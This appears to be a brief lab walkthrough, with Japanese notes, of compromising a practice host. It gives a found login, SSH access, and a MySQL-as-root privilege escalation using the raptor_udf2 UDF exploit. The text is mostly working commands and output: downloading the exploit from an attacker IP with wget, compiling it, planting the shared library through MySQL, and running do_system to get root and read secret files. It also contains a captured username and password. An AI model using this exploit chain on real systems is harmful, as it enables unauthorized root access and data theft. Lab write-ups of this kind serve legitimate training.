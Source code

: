 nmap   
http://10.11.1.252:8000/login.php    
username:  j0hn   
password:  bzuisJDnuI6WUDl   
j0hnでsshに接続   
linpeas.shを実行するとmysqlがrootで実行されていることがわかる   
「mysql -v」で  
webで「mysql 5.0 exploit」で検索するとexploitが見つかる  
```
ssh j0hn@10.11.1.252 -p 22000
wget http://192.168.119.154:443/1518.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so 1518.o -lc
mysql -u root -p
Enter password:
mysql> use mysql;
mysql> show tables;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/j0hn/abc/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
mysql> \! sh
sh-3.2$
sh-3.2$ exit
mysql> select do_system('id > /tmp/out; chown j0hn.j0hn /tmp/out');
mysql> \! sh
sh-3.2$ cat /tmp/out
uid=0(root) gid=0(root)
mysql> select do_system('cat /root/proof.txt >/tmp/proof; chown j0hn.j0hn /tmp/out');
mysql> select do_system('cat /root/network-secret.txt >/tmp/out; chown j0hn.j0hn /tmp/out');
mysql> \! bash
cat /tmp/proof
cat /tmp/net
```
